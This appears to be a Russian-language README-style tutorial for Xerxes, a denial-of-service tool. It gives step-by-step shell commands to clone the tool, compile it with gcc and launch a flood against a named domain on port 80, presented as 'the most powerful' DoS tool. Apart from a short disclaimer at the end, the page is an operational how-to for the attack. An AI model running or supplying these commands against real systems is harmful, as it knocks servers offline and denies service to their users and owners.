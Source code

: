 # 💀 XERXES – самый мощный инструмент для DoS-атаки с использованием Kali Linux

-- Как использовать Xerxes при запуске атаки DOS.

Инструменты DDOS способны создавать большие нагрузки на HTTP-серверы и вызывать большую нагрузку на ресурсы серверов.

Что такое DOS-атака?
Тип атаки, которая флудит серверы или сети, что приводит к тому, что источник недоступен для конечных пользователей.

Xerxes – это простой мощный инструмент для DoS-атаки с использованием Kali Linux

Используйте Xerxes из Github для этого выполните следующие команды:

``` bash
git clone https://github.com/XCHADXFAQ77X/XERXES.git
```
Затем перейдите в директорию.

```
cd xerxes
```

Далее вы должны скомпилировать с помощью GNU GCC

``` bash
gcc xerxes.c -o xerxes
```

Чтобы начать атаку укажите IP-адрес либо домен и порт. Например:

``` bash
./xerxes tsarev.biz 80
```

❗ Примечание: Информация только для исследования, обучения или проведения аудита. Применение в корыстных целях карается законом.
